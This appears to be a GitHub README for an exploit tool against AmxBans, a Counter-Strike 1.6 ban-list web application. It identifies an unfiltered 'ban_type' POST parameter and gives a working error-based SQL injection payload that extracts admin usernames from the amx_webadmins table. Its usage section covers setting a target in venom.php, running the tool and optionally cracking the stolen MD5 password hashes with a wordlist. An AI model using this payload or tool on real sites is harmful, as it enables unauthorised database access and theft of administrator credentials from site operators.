 
# Short info
<p> Amxbans is an website for the Counter-Strike 1.6 banlists </p>
<p> It works like -> Admin gives you ban, and all information about ban are appears on the website </p>

 

# Explanation
<img src="explanation.png"  height="400" width="600">

<p> Look on the image where code block section are selected with red rectangle.
There are defined bunch of variables , and all these variables are filtered with the sql_safe function </p>
<br>
<p> SQL_SAFE source</p>
include/functions.inc.php LINE 80

```
function sql_safe($value) {
	if (get_magic_quotes_gpc()) $value=stripslashes_recursive($value); //function in config.inc.php
	return mysql_real_escape_string($value);
} 
```
- [1] get_magic_quotes_gpc() = Checks configuration in php.ini,  if this feature
is avaliable then it wiil escape all  single-quote, double quote, backslash and NULs 
- [2] stripslashes_recursive($value) = All data which will passed in $value will be filtered and slashes will be stripped.
- [3] sql_safe function will return with mysql_real_escape_string which is the mysql function used against sql injection attacks.

# Vulnerability
<p>As you see all the requests are fileter except one which is the </p>

```
$type = $_POST["ban_type"];
```
<p>so that means that we can pass whatever we want in the $_POST request and it will executed in the database</p>
<p>For example into the $_POST["ban_type"] we can pass sql query like below</p>

```
"'+(1 AND extractvalue(rand(),concat(0x3a,(SELECT  username  FROM `amx_webadmins` WHERE ID > 0  LIMIT 2,1))))+'"
```
<p>and it will return Username from the amx_webadmins</p>


# Usage
- [1] Open venom.php and set the target on line 40
- Experimental = You can uncomment ```restore_hash($password);``` on the 67 line
then import code from the db.sql and your wordlist into the mysql server.
It  will give you posibility to use your own password cracking wordlist for md5 hash from the your server without using any other online platforms.
```
php venom.php
```
<img src="screen.png"  height="400" width="600">